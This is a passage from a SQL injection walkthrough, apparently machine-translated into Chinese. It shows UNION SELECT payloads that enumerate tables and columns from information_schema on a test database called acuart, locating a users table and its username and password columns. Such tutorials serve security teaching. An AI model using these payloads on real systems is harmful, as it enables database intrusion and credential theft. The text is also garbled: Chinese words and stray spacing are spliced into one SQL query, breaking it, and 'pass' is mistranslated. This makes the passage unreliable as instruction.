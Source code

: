 *我们用*表名*代替了 2。*

*![](img/cb583e385e9dec7087f24d095b868230.png)*

*query-something cat = ' 1 union select 1，table_name，3，4，5，6，7，8，9，10，11 from information _ schema . tables 其中 table _ schema = database()—(& rest 被忽略)*

*我们将追踪*table _ name***users**，你知道为什么。*

*8.现在我们有了数据库(acuart)和表名(users)。我们将选择*列名*。使用查询`union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name='users' --`*

*瞧啊。我们得到了各列 **uname** & **的通行证。***

*![](img/b4d53dce49d3dcddaa1501890f99eed8.png)*
